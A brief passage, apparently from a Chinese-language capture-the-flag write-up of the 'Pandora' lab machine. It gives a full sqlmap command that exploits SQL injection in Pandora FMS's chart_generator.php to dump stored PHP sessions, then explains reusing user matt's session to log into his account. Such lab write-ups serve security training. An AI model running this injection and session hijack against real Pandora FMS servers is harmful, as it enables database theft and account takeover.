 ```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tsessions_php -C "data,id_session" --threads 10  --dump --where "data<>''"
```

![image-20250405163222865](Pandora/image-20250405163222865.png)

登录时将session替换为matt的session即可登录到matt用户的后台

![image-20250405164316757](Pandora/image-20250405164316757.png)

